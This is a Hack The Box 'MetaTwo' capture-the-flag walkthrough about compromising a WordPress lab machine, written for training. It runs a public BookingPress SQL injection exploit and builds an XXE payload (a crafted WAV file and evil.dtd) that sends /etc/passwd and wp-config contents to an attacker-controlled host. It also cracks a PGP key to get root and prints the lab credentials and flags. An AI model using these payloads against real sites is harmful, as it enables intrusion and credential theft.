





# MetaTwo

## Reconnasiance 

### nmap 

```nmap -sV -sC -sS 10.10.11.186```



### Gathering Information 

- Web Page : http://metapress.htb
- Access to ```10.10.11.186``` will be redirected to metapress.


- dir enumerate
```
gobuster dir -u http://metapress.htb -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```


- It seems build up on WordPress, since the find the following path
    - wp-incudles
    - wp-content
    - admin
    - dashborad


- Find the version from source code 


- Check [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress) about hack the wordpress web site.


- I also tried to access : 

1. ```http://metapress.htb/license.txt```


2. ```http://metapress.htb/wp-admin```, 
- it will direct to 

>http://metapress.htb/wp-login.php?redirect_to=http%3A%2F%2Fmetapress.htb%2Fwp-admin%2F&reauth=1


### ID Brute

- Follow the method to enumerate user ID from HackTrick.
- It  gets valid users from a WordPress site by Brute Forcing users IDs:

>Access to http://metapress.htb/?author=1
>It will redirect to http://metapress.htb/author/admin/
>And show the following image. (Author: admin)


- But the content seems same as normal.

### Exploit xmlrpc 

- Using POST method to ```/xmlrpc.php```
```
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```


### Using WPScan


- Check all plugins
```
wpscan --url metapress.htb -e ap --plugins-detection mixed --api-token <api>
```

- Result 


- Here are 28 vulnerabilities be found.


- Also, the result shows the plugin and its vulnerabilty


## Exploit 

### CVE-2022-21661
- Try CVE-2022-21661
- Intercept the admin-ajax request, create the payaload
- but it failed, I think it's caused by the payload, it might has something wrong in it.


- Try the payload again, but still failed 


### CVE-2022-0739

- Since the SQLi failed, but I also find another CVE.
- Let's try it.
- Make an appointement first, and intercept it in Burp.


- I think the following payload looks normal than before.
- Record ```_wpnonce```, it is important information in exploit poc.


- Using the [payload](https://github.com/destr4ct/CVE-2022-0739)
- Setting the target host and nonce value
```
python3 booking-press-expl.py -u http://metapress.htb -n ffcd6fe38a
```
- With this payload, there are 2 accounts in results, admin, manager and their password hash value


- Using Hashcat to decrypt it.
- The admin hash can't crack, but I can get manager's password.
- Besides that, I only success to execute hashcat on windows with GUI version.
- It always response error(like kernel error) in linux.


- crack credential 
    - manager / partylikearockstar


- Login to wordpress admin


- Check wordpress dashboard 


- Here is a upload function in media part 


- Search CVE for this. --> CVE-2021-29447


- According to this [article](https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/)
- I should prepare a wav file with first payload, and it will contain the attacker host and a dtd file with main exploit xml code.
- Let's try to get ```/etc/passwd```
```
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.16.44:1337/evil.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```


- create evil dtd file 
```
<!ENTITY % file SYSTEM "php://filter/read-convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.16.44:1337/?p=%file;'>">
```


- Create a listener by php 
```
php -S 0.0.0.0:1337 
```
- The result will show in parameter ```p```.
- Store those result


- decode base64 for ```/etc/passwd```


- Modify the  ```evil.dtd``` content.
- I try to get wp-config file content in this time
- The other different is convert base64 method, I use ```zlib.deflate``` in this time


- Check base64 decode file content


- Check the base64 decode result
- 2 Credentials found
    1. Mysql login information (localhost / blog / 635Aq@TdqrCwXFUZ)
    2. FTP login information ( ftp.metapress.htb / metapress.htb / 9NYS_ii@FyL_p5M2NvJ )


- Try mysql first, but it will failed.(since the port 3306 doesn't open for external).
- Connect to FTP server 


- I can find 2 directory
    1. blog 
    2. mailer


- Check mailer directory, find 2 file 
    1. PHPMailer directory
    2. PHP file: send_email
 

- Download ```send_email.php```
- ```get send_email.php```


- Check ```send_email``` php file
- The password for user: jnelson store in it.


- Login to jnelson by ssh


- Get user flag: ```ab69ffde261cc32b9ecb81c333c96480```


## Post Exploitation 

- Check the content in jnelson's directory
- I found a hide directory ```passpie```
- It contain : ```.config``` / ```.keys``` / ssh directory


- In ssh direcotry, it contains ```jnelson.pass``` / ```root.pass```


- Download ```.keys``` file from victim host by scp
```
scp jnelson@10.10.11.186:.passpie/.keys .keys
```


- Only leave Private key Block, and delete public key Block 


- Using gpg2john to convert the gpg to the format which john support.
```
gpg2john key > gpg.john
```


- Using john and Ripper to decrypt the key
```
john gpg.john -w=/usr/share/wordlists/rockyou.txt
```


- check how many user credential store in passpie


- create a file to store the export result from passpie
```
touch pass
passpie export pass 
```


- The pass result as follow, I got root's password


- Change user to root


- Get root flag : ```060fcf618ba7faa4d2326cf0cc06916b```


## Reference 

- [Discussion site](https://forum.hackthebox.com/t/official-metatwo-discussion/266820/60)
- [(Writeup)Hackthebox Metatwo Writeup](https://0xdedinfosec.vercel.app/blog/hackthebox-metatwo-writeup)
- [Hashcat hash algo code](https://hashcat.net/wiki/doku.php?id=example_hashes)
- [(HackTrick) FTP Related](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ftp)

### WordPress Scan Related 

- [Complete List of Default WordPress Files](https://digwp.com/2012/05/complete-list-wordpress-files/)
- [WordPress xmlrpc exploit](https://h3llwings.wordpress.com/2019/01/14/exploiting-wordpress-xmlrpc/)
- [(Vulnerability)WordPress Booking Press](https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357)
- [Decrypt MD5 Wordpress](https://h2-exploitation.blogspot.com/2013/05/decrypt-md5-wordpress.html)
- [(HackTrick)WordPress](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress)
- [Exploiting WordPress XMLRPC](https://h3llwings.wordpress.com/2019/01/14/exploiting-wordpress-xmlrpc/)
- [WPScan Vulnerability Result](https://wpscan.com/wordpress/562)
- [WPScan Basic](https://blog.sucuri.net/2021/05/wpscan-how-to-scan-for-wordpress-vulnerabilities.html)
- [(GITHUB)WPScan User Documentation](https://github.com/wpscanteam/wpscan/wiki/WPScan-User-Documentation)

### passpie

- [(GITHUB)passpie: Command-line password manager](https://github.com/marcwebbie/passpie)


- [Passpie Document](https://passpie.readthedocs.io/en/latest/)


### PGP Crack

- [How to crack PGP key](https://www.openwall.com/lists/john-users/2015/11/17/1)


### CVE-2022-0739 (success)

- [CVE-2022-0739](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0739)
- [(GITHUB)CVE-2022-0739](https://github.com/destr4ct/CVE-2022-0739)
- [BookingPress < 1.0.11 - Unauthenticated SQL Injection](https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357)

### CVE-2021-29447

- [(Working PoC)WordPress XXE Vulnerability in Media Library – CVE-2021-29447](https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/)




- [(GITHUB)WordPress 5.6-5.7 - Authenticated (Author+) XXE (CVE-2021-29447)](https://github.com/motikan2010/CVE-2021-29447)
- [WordPress 5.6-5.7 - Authenticated XXE Within the Media Library Affecting PHP 8](https://wpscan.com/vulnerability/cbbe6c17-b24e-4be4-8937-c78472a138b5)
- [CVE-2021-29447：WordPress XXE漏洞详情及利用方式](https://cn-sec.com/archives/362965.html)
- [CVE-2021-29447](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29447)

### CVE-2022-21661 (Failed)

- [WordPress Core 5.8.2 - 'WP_Query' SQL Injection](https://www.exploit-db.com/exploits/50663)


- [(GITHUB)WordPress-Core-5.8.2-WP_Query-SQL-Injection-1](https://github.com/TAPESH-TEAM/CVE-2022-21661-WordPress-Core-5.8.2-WP_Query-SQL-Injection)
- [(GITBHU)WordPress-Core-5.8.2-WP_Query-SQL-Injection-2](https://github.com/TAPESH-TEAM/CVE-2022-21661-WordPress-Core-5.8.2-WP_Query-SQL-Injection/blob/main/Exploit.txt)


###### tags: `HackTheBox` `linux` `XXE` `WordPress` `PGP key` `Hashcat` `John and Ripper` `passpie` `SQLi` `SQL Injection` `wordpress`